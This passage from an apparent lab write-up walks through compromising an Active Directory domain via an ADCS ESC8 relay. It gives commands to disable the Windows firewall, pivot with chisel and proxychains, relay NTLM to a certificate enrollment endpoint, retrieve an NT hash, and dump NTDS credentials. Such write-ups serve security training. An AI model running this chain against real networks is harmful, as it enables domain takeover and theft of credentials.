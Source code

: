 ```
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
```

Now, lets copy chisel with `scp` and start it, then we can adjust our `proxychains` tool and setup a proxy to access the internal ports.

Upon the enumeration using the ADCS module from `nxc`, we can see that there is an enrollment server:

<img src="/images/Pasted image 20240219162238.png">

We would want to see the vulnerable certificates now using `certipy`

```
$ proxychains certipy find -username clare.frost@kaiju.vl -hashes be167.. -vulnerable -stdout -dc-ip 10.10.213.165
```

<img src="/images/Pasted image 20240219160939.png">

There is ESC8 vulnerability which we can exploit.

The next step is quite tricky, we need to redirect the traffic that comes to the machine that we are in `BERSRV200` to other port that we then should forward to our machine where we setup a relay towards the `BERSRV100` so that we can get the authenticating certificate that we use from `BERSRV105` towards `BERSRV100`, with that certificate we can then try to get TGT from the `BERSRV100` principal which in turn will retrieve us the NT hash.

To setup this we would need to do these following steps:
- On the `BERSRV200` machine use the https://github.com/jellever/StreamDivert to forward the traffic from 445 to 8445
- Forward the 8445 port on the `BERSRV200` machine towards your local machine
- Setup a `ntlmrelayx` with the following args: `proxychains ntlmrelayx -t http://BERSRV100.kaiju.vl/certsrv/certfnsh.asp -smb2support --adcs --template 'DomainController'`
- Transform the certificate from `b64` to `pfx` (simply decode it and save it to `pfx`)
- Use `proxychains certipy auth -pfx cert.pfx` to ask for TGT, to retrieve the NT hash

<img src="/images/Pasted image 20240219141333.png">

<img src="/images/Pasted image 20240219162140.png">


Then we should be able to dump the OS credentials with the retrieved hash for the user `BERSRV100$`

```
$ proxychains crackmapexec smb 10.10.213.165 -u 'BERSRV100$' -H '19ad5c18445fxxxxx' --ntds drsuapi
```

<img src="/images/Pasted image 20240219162031.png">

And then we can use the administrator's hash to log in using `winrm` or similar.